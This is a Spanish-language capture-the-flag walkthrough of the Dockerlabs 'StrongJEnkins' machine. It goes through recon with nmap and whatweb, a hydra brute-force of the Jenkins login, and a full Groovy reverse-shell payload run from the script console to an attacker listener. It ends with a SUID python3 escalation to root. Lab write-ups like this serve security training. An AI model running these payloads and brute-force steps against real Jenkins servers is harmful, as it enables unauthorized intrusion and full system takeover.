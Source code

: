
# Writeup Template: Maquina `[ StrongJEnkins ]`

- Tags: #StrongJEnkins #Jankins
- Dificultad: `[ Media ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina StrongJEnkins](https://mega.nz/file/QLF1maab#uWv80VZEIFclxoCnHb5COB6vgZYDLciFr1tkQX_Be8g)

## Configuracion del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x strongjenkins.zip
sudo bash auto_deploy.sh strongjenkins.tar
```

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
``` 

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p8080 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
8080/tcp open  http    Jetty 10.0.20
```
---

## Enumeracion de [Servicio  Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2:8080
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2:8080
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.29b5fe4f], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.20)], HttpOnly[JSESSIONID.29b5fe4f], IP[172.17.0.2], Jenkins[2.440.2], Jetty[10.0.20], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]
http://172.17.0.2:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.29b5fe4f], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.20)], HttpOnly[JSESSIONID.29b5fe4f], IP[172.17.0.2], Jenkins[2.440.2], Jetty[10.0.20], PasswordField[j_password], Script[application/json,text/javascript], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 8080 172.17.0.2
```

Reporte:
```bash
/robots.txt: Robots file
```

Ahora realizaremos un ataque de fuerza bruta al panel de inicio de sesion de la siguiente manera:
Primero interceptamos la peticon para saber como es que se esta tramitando la peticion:
```bash
POST /loginError HTTP/1.1
Host: 172.17.0.2:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://172.17.0.2:8080
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://172.17.0.2:8080/login?from=%2F
Cookie: JSESSIONID.29b5fe4f=node01q1z7eix5dq1qtb8sd8q6poz932.node0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

j_username=admin&j_password=admin&from=%2F&Submit=
```

Ahora usaremos esto para intentar nuestro ataque por fuerza bruta: con **hydra**
```bash
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/loginError:j_username=^USER^&j_password=^pass^:F=Invalid username or password" -f -s 8080 -I -t 4
```

Ahora tenemos la contrasena del usuario **admin**
```bash
[8080][http-post-form] host: 172.17.0.2   login: admin   password: rockyou
```

Ahora nos conectaremos al servicio principal con estas credenciales:
```bash
j_username: admin
j_password: rockyou
```

Ahora es esta pestana, 
```bash
http://172.17.0.2:8080/manage/administrar jenkings
```

Aqui tenemos un apartado de **consola**
```bash
http://172.17.0.2:8080/manage/script
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que estamos en **script** verificaremos si podemos ejecutar comandos:
```bash
println "whoami".execute().text
```

El **output** en el resultado nos retorna:
```bash
jenkins
```

Asi que podemos ejecutar comando y nos aprovecharemos de esto para ganar acceso al objetivo:

### Ejecucion del Ataque
##### Reverse Shell con Groovy
```bash
# Comandos para explotación
String host="172.17.0.1";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

Ahora solo ejecutamos: **Ejecutar**

---

## Escalada de Privilegios

###### Usuario `[ Jenkings ]`:
Enumeramos privilegios **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Explotamos el privilegio:
```bash
# Comando para escalar al usuario: ( root )
/usr/bin/python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
bash-5.1# whoami
root
```

---